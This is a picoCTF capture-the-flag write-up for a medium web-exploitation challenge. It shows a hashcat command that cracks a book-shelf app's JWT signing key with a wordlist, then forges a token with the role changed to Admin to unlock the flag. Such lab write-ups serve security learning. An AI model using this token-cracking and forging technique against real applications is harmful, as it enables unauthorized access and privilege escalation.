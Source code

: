 # Challange Info

Name : Java Code Analysis!?!

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/355?category=1&page=1

# Writeup

The webapp provides you books and there are three tiers to access books Free, Premium, Admin the admin role is required to access the flag.

Checking storage of webapp and there is a JWT in local storage.

Trying to bruteforce the JWT key with hashcat.

```bash
hashcat -a 0 -m 16500 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTczNjM1NDcxMCwiaWF0IjoxNzM1NzQ5OTEwLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.J-18zb26kd2vD_o8DTmkwryKFnY2CVZwA5qLe7iHfes /usr/share/wordlists/rockyou.txt
```

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTczNjM1NDcxMCwiaWF0IjoxNzM1NzQ5OTEwLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.J-18zb26kd2vD_o8DTmkwryKFnY2CVZwA5qLe7iHfes:1234

This gives us the JWT signing key now we can generate our own JWT key.

Website Link : https://10015.io/tools/jwt-encoder-decoder

First let's decode the JWT And verify signature.

```
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1736355162,
  "iat": 1735750362,
  "userId": 1,
  "email": "user"
}
```

Entering the signature and it's verified let's copy payload and change some parameters.

```
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1736355162,
  "iat": 1735750362,
  "userId": 2,
  "email": "user"
}
```

Now sign the JWT with the key and edit it in Session storage of webapp.

For safety I also edit the token below JWT.

The book is now unlocked with the flag.
